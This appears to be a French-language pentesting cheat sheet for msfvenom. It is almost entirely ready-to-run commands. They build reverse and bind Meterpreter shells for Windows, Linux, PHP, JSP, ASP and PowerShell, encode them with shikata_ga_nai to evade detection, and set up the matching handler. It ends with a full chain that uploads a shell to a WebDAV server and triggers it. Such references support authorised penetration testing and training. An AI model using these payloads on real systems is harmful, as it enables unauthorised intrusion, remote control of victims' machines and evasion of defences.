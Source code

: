 # 🧬 MSFVenom - Payload Generator

[← Retour à la table des matières](../README.md)

## Syntaxe générale
```bash
msfvenom -p PAYLOAD LHOST=IP LPORT=PORT -f FORMAT > output_file
```

## Payloads Windows

### Meterpreter TCP
```bash
# Reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f exe > shell.exe

# Reverse HTTPS (plus discret)
msfvenom -p windows/meterpreter/reverse_https LHOST=KALI_IP LPORT=443 -f exe > shell.exe

# Bind TCP
msfvenom -p windows/meterpreter/bind_tcp LPORT=1234 -f exe > bind_shell.exe
```

### Formats spécifiques Windows
```bash
# ASP pour IIS/WebDAV
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp

# ASPX pour IIS moderne
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f aspx > shell.aspx

# PowerShell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f psh > shell.ps1

# DLL
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f dll > shell.dll
```

## Payloads Linux

### Meterpreter Linux
```bash
# ELF executable
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f elf > shell.elf

# Shell reverse
msfvenom -p linux/x86/shell_reverse_tcp LHOST=KALI_IP LPORT=1234 -f elf > shell.elf
```

## Payloads Web

### PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=KALI_IP LPORT=1234 -f raw > shell.php
```

### JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=KALI_IP LPORT=1234 -f raw > shell.jsp
```

## Encodage et évasion

### Encodage simple
```bash
# Encoder avec shikata_ga_nai
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -e x86/shikata_ga_nai -f exe > encoded_shell.exe

# Multiples itérations d'encodage
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe > encoded_shell.exe
```

## Handler correspondant

### Multi/Handler
```bash
# Dans msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST KALI_IP
set LPORT 1234
run
```

## Exemples d'intégration

### WebDAV + MSFVenom
```bash
# 1. Générer le payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp

# 2. Upload via cadaver
cadaver http://targetIP/webdav
put shell.asp

# 3. Démarrer le handler
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST KALI_IP
set LPORT 1234
run

# 4. Déclencher via navigateur
# http://targetIP/webdav/shell.asp
```

## Options utiles
- `-l` : Lister les payloads disponibles
- `-f` : Format de sortie
- `-e` : Encoder le payload
- `-i` : Nombre d'itérations d'encodage
- `-b` : Bad characters à éviter
- `--platform` : Plateforme cible
- `-a` : Architecture cible